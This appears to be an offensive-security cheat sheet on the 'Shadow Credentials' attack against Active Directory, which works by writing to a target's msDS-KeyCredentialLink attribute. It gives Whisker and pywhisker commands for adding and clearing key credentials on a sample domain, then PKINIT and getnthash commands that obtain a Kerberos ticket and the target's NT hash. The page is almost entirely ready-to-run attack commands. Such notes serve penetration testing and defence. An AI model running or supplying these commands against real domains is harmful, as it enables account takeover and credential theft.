 # Key Credentials Abuse

> "...if you can write to the msDS-KeyCredentialLink property of a user, you can retrieve the NT hash of that user." (Elad Shamir, [ref](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab))

That makes `GenericWrite` on a user effectively equal to DCSync right on that user.




## DSInternals

* [https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Get-ADKeyCredential.md](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Get-ADKeyCredential.md)




## Whisker

* [https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
* [https://github.com/eladshamir/Whisker](https://github.com/eladshamir/Whisker)

List all the values of the the `msDS-KeyCredentialLink` attribute of a target object:

```
Cmd > .\Whisker.exe list /target:ws01$ /domain:megacorp.local /dc:DC1.megacorp.local
```

Add a new value to the `msDS-KeyCredentialLink` attribute of a target object:

```
Cmd > .\Whisker.exe add /target:ws01$ /domain:megacorp.local /dc:DC1.megacorp.local /path:C:\Temp\cert.pfx /password:Passw0rd!
```

Remove a value from the `msDS-KeyCredentialLink` attribute of a target object:

```
Cmd > .\Whisker.exe remove /target:ws01$ /domain:megacorp.local /dc:DC1.megacorp.local /remove:00ff00ff-00ff-00ff-00ff-00ff00ff00ff
```

Clear all the values of the the `msDS-KeyCredentialLink` attribute of a target object:

```
Cmd > .\Whisker.exe clear /target:ws01$ /domain:megacorp.local /dc:DC1.megacorp.local 
```




## pywhisker

* [https://github.com/ShutdownRepo/pywhisker](https://github.com/ShutdownRepo/pywhisker)

```
$ python3 pywhisker.py -d megacorp.local -u svc_mysql -p 'Passw0rd!' --target sqltest --action list
$ python3 pywhisker.py -d megacorp.local -u svc_mysql -p 'Passw0rd!' --target sqltest --action add -f sqltest_cert
$ python3 pywhisker.py -d megacorp.local -u svc_mysql -p 'Passw0rd!' --target sqltest --action list
$ python3 pywhisker.py -d megacorp.local -u svc_mysql -p 'Passw0rd!' --target sqltest --action clear
$ python3 gettgtpkinit.py megacorp.local/sqltest -cert-pfx ~/tools/pywhisker/sqltest_cert.pfx -pfx-pass 3Dc3Er0rst2e9J1yRtjh sqltest.ccache
$ KRB5CCNAME=sqltest.ccache python3 getnthash.py megacorp.local/sqltest -key 00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff
```
